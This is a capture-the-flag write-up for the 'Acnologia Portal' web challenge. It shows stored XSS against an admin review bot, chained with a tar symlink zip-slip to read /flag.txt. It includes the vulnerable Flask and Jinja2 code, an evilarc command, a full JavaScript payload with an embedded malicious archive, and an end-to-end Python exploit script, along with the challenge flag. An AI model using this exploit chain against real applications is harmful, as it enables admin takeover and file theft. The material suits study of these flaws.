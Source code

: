 *2022-05-15*
#ctf-writeup

***

# Acnologia Portal
**Category: Web**

## Description
Bonnie has confirmed the location of the Acnologia spacecraft operated by the Golden Fang mercenary. Before taking over the spaceship, we need to disable its security measures. Ulysses discovered an accessible firmware management portal for the spacecraft. Can you help him get in?

## Initial thoughts
For this challenge, we're given an endpoint to the "Acnologia Firmware Portal", which is just a login screen, as well as a zip file containing the source code. The code looks to be written using the Flask framework.

In `routes.py` we can see all the endpoints available to us. Many of the endpoints are publicly available, but some require you to be logged in, be an administrator, or some combination of the two.

I created an account, and after logging in was given a list of firmware and the ability to report a bug on each.

![[../Files/login.png]]
![[../Files/firmware-list.png]]

Looking at `routes.py` I could see that after posting a firmware report, a function `visit_report()` is called. This function launches a selenium driver in `bot.py` that visits the report review page using a bot with administrative credentials. This immediately indicates an XXS injection.

```python
# routes.py

@api.route('/firmware/report', methods=['POST'])
@login_required
def report_issue():
    if not request.is_json:
        return response('Missing required parameters!'), 401

    data = request.get_json()
    module_id = data.get('module_id', '')
    issue = data.get('issue', '')

    if not module_id or not issue:
        return response('Missing required parameters!'), 401

    new_report = Report(module_id=module_id, issue=issue, reported_by=current_user.username)
    db.session.add(new_report)
    db.session.commit()

    # highlight-start
    visit_report()
    # highlight-end
    migrate_db()

    return response('Issue reported successfully!')
```

If we look at the Jinja2 template for the review page, we confirm our XXS theory. The `{{ report.issue | safe }}` directive tells Jinja2 not to sanitize the value of `report.issue`. We can control the value of `report.issue` when we submit a report, allowing us to XXS the admin bot.

```python
# review.html

...
    <div class="container" style="margin-top: 20px"> {% for report in reports %} <div class="card">
        <div class="card-header"> Reported by : {{ report.reported_by }}
        </div>
        <div class="card-body">
        <p class="card-title">Module ID : {{ report.module_id }}</p>
          # highlight-start
          <p class="card-text">Issue : {{ report.issue | safe }} </p>
          # highlight-end
          <a href="#" class="btn btn-primary">Reply</a>
          <a href="#" class="btn btn-danger">Delete</a>
        </div>
      </div> {% endfor %} </div>
  </body>
</html>
```

Before crafting an XXS, I needed to know what we want the bot to do. Looking at the Dockerfile we see that `flag.txt` is copied to the root of the Linux instance, and somehow we need to read this file.

## Zip slip
One endpoint of interest is `/firmware/upload`, which requires admin access. It takes a file from a POST request and calls `extract_firmware()`.

```python
# routes.py

@api.route('/firmware/upload', methods=['POST'])
@login_required
@is_admin
def firmware_update():
    if 'file' not in request.files:
        return response('Missing required parameters!'), 401

    extraction = extract_firmware(request.files['file'])
    if extraction:
        return response('Firmware update initialized successfully.')

    return response('Something went wrong, please try again!'), 403
```

`extract_firmware()` does the following:
* Copies a tar.gz file to the `/tmp` directory.
* Extracts the tar.gz,
* Copies the extracted files to a randomly-generated directory in `static/firmware_extract`.

This sounds like a zip slip. Something interesting is that tar.gz files allow you to tar existing symlinks and have them maintain their link when untarred on a different system. If we tar a file that is symlinked to `/flag.txt`, we can zip slip this file into the static folder on the challenge instance (which is publically accessible) and then read it from there.

I used a tool called [evilarc](https://github.com/ptoomey3/evilarc) to generate the zip slip tar.gz file with the following command:

```shell
python2 evilarc.py -o unix -d 1 -f zip.tar.gz zip-dir/ -p app/application/static/firmware_extract
```

## The XXS
I took the base64 of this file and crafted an XXS injection to send a POST request using fetch. This will trick the bot into uploading this file.

I used the following XXS injection and submitted this as a firmware report.

```html
<script>
    const formData = new FormData();

    const base64str = "H4sICFWrgWIC/3ppcC50YXIA7dFBCsIwEIXhHCUnSNKkIceRUFqptFrSiHp700VBXGhREIT/g+EtZjbDU0rHaVpm6JuY+9NRz7lko7s+jZeY2l17zSk2WYtPmSJ4v2QVvHnMlahqWxtnvTdBGFvVzgnpxQ+cy7tJSnGIYzu/uHu3Xx9Z80+o7f3Pt/GL/kPY0r+z1pX+XTBeSKu7Ie5Vvmb6BwAAAAAAAAAAAAAAAIBnd4IsRacAKAAA";

    var binary = atob(base64str.replace(/\s/g, ''));
    var len = binary.length;
    var buffer = new ArrayBuffer(len);
    var view = new Uint8Array(buffer);
    for (var i = 0; i < len; i++) {
        view[i] = binary.charCodeAt(i);
    }

    var blob = new Blob( [view], { type: "application/gzip" });
    formData.append("file", blob, "zip.tar.gz");
    fetch("http://localhost:1337/api/firmware/upload", {credentials: "include", method: "POST", body: formData});
</script>
```

Once the bot visits the review page, it will use its admin credentials to upload our tar.gz file to the `/firmware/upload` endpoint. The Flask code will then attempt to un-tar the file, and our zip slip will put the symlink into `/app/application/static/firmware_extract` on the challenge filesystem.

We can then navigate to the endpoint `/static/firmware_extract/symlink` and `flag.txt` will be downloaded onto our computer.

## Final script
I wrote this Python 3 script that does all the steps.

```python
import requests

def main():
    endpoint = "http://127.0.0.1"
    port = "1337"

    requests.post(f"{endpoint}:{port}/api/register", json={"username": "Articuler", "password": "foobar"})
    login = requests.post(f"{endpoint}:{port}/api/login", json={"username": "Articuler", "password": "foobar"})

    cookies = {
        "session": login.cookies["session"],
        "nc_sameSiteCookiestrict": "true",
        "nc_sameSiteCookielax": "true"
    }

    xss = """<script>
    const formData = new FormData();

    const base64str = "H4sICFWrgWIC/3ppcC50YXIA7dFBCsIwEIXhHCUnSNKkIceRUFqptFrSiHp700VBXGhREIT/g+EtZjbDU0rHaVpm6JuY+9NRz7lko7s+jZeY2l17zSk2WYtPmSJ4v2QVvHnMlahqWxtnvTdBGFvVzgnpxQ+cy7tJSnGIYzu/uHu3Xx9Z80+o7f3Pt/GL/kPY0r+z1pX+XTBeSKu7Ie5Vvmb6BwAAAAAAAAAAAAAAAIBnd4IsRacAKAAA";

    var binary = atob(base64str.replace(/\s/g, ''));
    var len = binary.length;
    var buffer = new ArrayBuffer(len);
    var view = new Uint8Array(buffer);
    for (var i = 0; i < len; i++) {
        view[i] = binary.charCodeAt(i);
    }

    var blob = new Blob( [view], { type: "application/gzip" });
    formData.append("file", blob, "zip.tar.gz");
    fetch("http://localhost:1337/api/firmware/upload", {credentials: "include", method: "POST", body: formData});
    </script>"""

    json = {
        "module_id": "test",
        "issue": xss
    }

    r = requests.post(endpoint + ":" + port + "/api/firmware/report", cookies=cookies, json=json)
    print(r.text)

main()
```

## Flag
`HTB{des3r1aliz3_4ll_th3_th1ngs}`

***
